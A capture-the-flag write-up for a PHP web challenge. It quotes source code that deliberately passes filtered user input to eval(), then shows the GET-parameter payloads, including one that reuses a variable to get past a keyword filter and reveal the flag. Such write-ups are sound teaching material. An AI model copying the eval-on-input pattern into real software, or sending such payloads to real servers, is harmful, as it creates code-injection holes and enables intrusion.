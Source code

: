 # Challenge description

Dali likes PhP because it's weird and has a lot of bugs. Is that really true ?
Link: http://20.119.58.135:1234

**Author: Kahla**

-----------------------------------------------------------

we were provided this php source code

```php

<?php
//Show Page code source
highlight_file(__FILE__);
require "secret.php";
if(isset($_GET["__"])&&isset($_GET["_"])){
$x=$_GET["__"];
$inp=preg_replace("/[^A-Za-z0-9$]/","",$_GET["_"]);
if($inp==="Kahla"){
    die("Hacking Attempt detected");
}
else{
    if(eval("return $inp=".$inp.";")==="Kahla"){
        echo $flag;
    }
    else{
        die("Pretty Close maybe ?");
    }
}
}
?>

```

trying to send **"Kahla"** in the **_** param prints out this prompt

Payload : ``` http://20.119.58.135:1234/?__=&_=Kahla ``` 

Output : 

![a](https://user-images.githubusercontent.com/58823465/151814781-7f079c2b-0cf4-42eb-8a71-250713e79fca.png)


We notice that we have the other **__** param too that we haven't trie to use yet 
and it seems sorta useless but its there soo we might as well just use it right?

So we know that the code is filtering the word **Kahla** and won't allow us to get the flag with it 
so how about we use the **__** to send it to the **_** param? since it's not verifying that param

Payload : ``` http://20.119.58.135:1234/?__=Kahla&_=$_GET[__] ```

Output : ![6](https://user-images.githubusercontent.com/58823465/151814811-b5b61141-c69c-47ba-a3dd-73827772fffc.png)


well i guess we're pretty close :/ ?
We can't use the **GET** to send the param because the regex won't allow the [] characters 
But notice that we have a **$x** variable in the source code that takes the **__** value !!
all we need to do is just to pass that through the **_** param

Payload : ``` http://20.119.58.135:1234/?__=Kahla&_=$x ```

Output : ``` Securinets{PeehPee_1s_AlWAYs_H3r3} ```

And there's our flag!





